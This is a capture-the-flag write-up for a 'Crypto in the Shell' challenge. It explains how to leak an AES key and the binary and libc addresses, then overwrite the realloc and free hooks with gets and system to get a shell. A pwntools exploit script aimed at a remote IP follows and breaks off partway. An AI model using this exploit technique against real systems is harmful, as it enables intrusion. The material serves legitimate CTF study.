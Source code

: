 ### Crypto in the Shell

This binary allow us to encrypt any memory with AES-CBC and will output the result of encryption. 
The key is unknown but we can encrypt the key at first, so we  acquire the key used in later encryptions. After that we can encrypt part of data segment to leak the address of binary base and libc.
We cannot control the value written into memory. But since CBC mode use IV, we can always utilize some encrypting operation near the IV memory to randomize the IV, and have a 1/256 chance to get our desired last byte of IV to control one byte of our encryption result.
Since we can only encrypting 32 times in total, only around 10  controlled bytes can be written into. The `scanf` will trigger realloc/free but only `0-9a-f` can be placed inside the `rdi` buffer and one gadgets do not work here. Finally we rewrite the realloc hook into `gets` (3 bytes) and free hook to `system` (6 bytes). The former one allow us to input `/bin/sh;` inside buffer while latter one trigger the shell.

```python
from pwn import *
from Crypto.Cipher import AES

context.log_level='debug'

def getoff(off):
    return str(off&0xffffffffffffffff)

'''
c = process('./chall')
pause()
key = 'd3b136da186e19e4a5db83d813c53207'.decode('hex')
'''
c = remote('3.113.219.89', 31337)

c.sendlineafter('offset:',getoff(-0x20))
c.sendlineafter('size:','15')
key = c.recv(16,timeout=1)


c.sendlineafter('offset:',getoff(0x202000-0x2023a0))
c.sendlineafter('size:','15')
ct0 = c.recv(16,timeout=1)
a = AES.new(key=key, IV='\x00'*16, mode=AES.MODE_CBC)
pt = a.decrypt(ct0)
pie = u64(pt[8:])-0x202008


c.sendlineafter('offset:',getoff(0x202360-0x2023a0))
c.sendlineafter('size:','15')
ct0 = c.recv(16,timeout=1)

a = AES.new(key=key, IV='\x00'*16, mode=AES.MODE_CBC)
pt = a.decrypt(ct0)
libc = u64(pt[:8]) - 0x3ec680
print hex(pie)
print hex(libc)
#pause()

reallochook = libc+0x3ebc28
system = libc+0x4f440
gets = libc+0x800b0
tar = p64(gets)
dat = p64(0)+p64(libc+0x97410)+p64(libc+0x98790)
dat = map(ord, dat)
buf = [0]*48

def dosearch(cnt, curb, curd, tt, maxh):
    if cnt>=maxh:
```